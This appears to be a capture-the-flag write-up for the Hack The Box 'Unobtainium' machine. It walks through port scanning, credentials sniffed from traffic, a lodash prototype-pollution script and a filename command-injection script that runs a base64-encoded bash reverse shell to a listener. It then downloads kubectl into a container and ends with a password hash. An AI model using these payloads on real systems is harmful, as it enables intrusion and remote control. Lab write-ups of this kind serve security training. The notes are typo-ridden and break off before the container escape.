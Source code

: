 # Unobtainium

IP : 10.10.10.235
OS -> Linux

````bash
echo "10.10.10.235 Unobtainium.htb" >> /etc/hosts 
````

Nmap 
nmap -sC -sV -p- unobtainium.htb

|Port|Service|
|---|---|
|22|ssh|
|80|http|
|2379|ssl/etcd-client|
|2380|ssl/etcd-server|
|8443|https|
|10250|https|
|31337|http|

### port 80
Simple html page. 

where we can download their program called unobtainium, let download it and see if we can learn anything from it. 

unpack the files, inside the files you will find opt/unobtainium/unobtainium program which is theirc chat software. 

The "TODO" tap describe furture functions
{"ok":true,"content":"1. Create administrator zone.\n2. Update node JS API Server.\n3. Add Login functionality.\n4. Complete Get Messages feature.\n5. Complete ToDo feature.\n6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n7. Improve security\n"}

The Post messages allow you to post messages. but to where, lets see if the system make a connection to anything. 
````bash
netstat -antp
#Output 
tcp        1      0 10.10.14.200:46798      10.10.10.235:31337      CLOSE_WAIT  2613/unobtainium -- 
````

And we see that it makes a connection to port 31337 node js service

go to http://unobtainium.htb:31337/ and you will see our text message. 
and it by the user felamos. why are we allready auth?

To get a better idea of what is happend with the packages lets start up wireshark. 
use filter ip.addr == 10.10.10.235 to cut out the noise. 

![[Pasted image 20210506124830.png]]

Look at the HTTP/JSON package 

````json
JavaScript Object Notation: application/json
    Object
        Member Key: auth
            Object
                Member Key: name
                    String value: felamos
                    Key: name
                Member Key: password
                    String value: Winter2021
                    Key: password
            Key: auth
        Member Key: filename
            String value: todo.txt
            Key: filename
````

And we got the cred for felamos the user we posted message as. 
Creds : felamos/Winter2021

It first tried it on ssh service and it did not work, would also be to easy. 

Startup burp so we can catch the request and send it to repeater
And you can now start search for files. 
a common web files is the inde.js let try that, and we got a hit, it in a very ugly format, but it hold nothing of interest. We know it a nodejs service lets see if we get the packages that is installed. 
search for package.json
lodash can be used to give us the options to upload and delete files.
and google-cloudstorage-commds for RCE. 

first start by giving us the ability to upload files. 
install
```bash
apt-get install jq
```

Exploit for giving us the ability to upload files
```bash
#!/bin/bash

RHOST="unobtainium.htb"
RPORT=31337
UA="Mozilla/5.0"
TEXT='{"constructor":{"prototype":{"canDelete":true, "canUpload":true}}}'

cat - <<EOF > message.json
{
    "auth":
    {
        "name":"felamos",
        "password":"Winter2021"
    },
    "message":
    {
        "text":${TEXT}
    }
}
EOF

curl -s \
     -X PUT \
     -A "${UA}" \
     -H "Content-Type: application/json" \
     -d "$(cat message.json | jq -c)" \
     "http://${RHOST}:${RPORT}/" \
| jq .
```

run the script 
```bash
./exploit.sh
```

we now have the ability to write in a file.

let make a reverse shell script 
```bash
#!/bin/bash

RHOST="unobtainium.htb"
RPORT=31337
UA="Mozilla/5.0"
FILE="& echo $(echo 'bash -i >& /dev/tcp/10.10.14.200/8754 0>&1' | base64) | base64 -d | bash"

cat - <<EOF > message.json
{
    "auth":
    {
        "name":"felamos",
        "password":"Winter2021"
    },
    "filename":"${FILE}"
}
EOF

curl -s \
     -A "${UA}" \
     -H "Content-Type: application/json" \
     -d "$(cat message.json | jq -c)" \
     -o /dev/null \
     "http://${RHOST}:${RPORT}/upload"
```

start a listner 

````bash
nc -lvnp 8754
````

and we got the user txt. 
notices we are root but inside a docker container we have to try and escape. 

privileged container check 
````bash
ip link add dummy0 type dummy
````
Nope we have to find another way.

There no kubectl in the container to be found, lets start by uploading on. 
[Install kubectl binary with curl on Linux](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux)

create a python server 
````bash
python3 -m http.server 8080
````

Download the fil using wget
````bash
wget http://10.10.14.200:8080/kubeclt -O /tmp/kubeclt
/tmp/kubectl get namespace #get the namespace of the other containers
/tmp/xkubectl get pods -n dev #Check if premissions of pods 
````

The way kubernetes cluster works by having one or more nodes, each of these nodes have one or more pods. Each pods can have one or more container. 
and we learn there are three pods with a container running






Hash -> $6$.hk3Zm.2qShoCbQK$LM95a1qtDhEtLPGorD8FmMY5pNef7WfodyUUaw9tikXkh8v/.qmhJPIEV40KYehroJybb4C12gLfQu0UsbFe80

[https://0xdedinfosec.github.io/posts/htb-unobtainium/](https://0xdedinfosec.github.io/posts/htb-unobtainium/)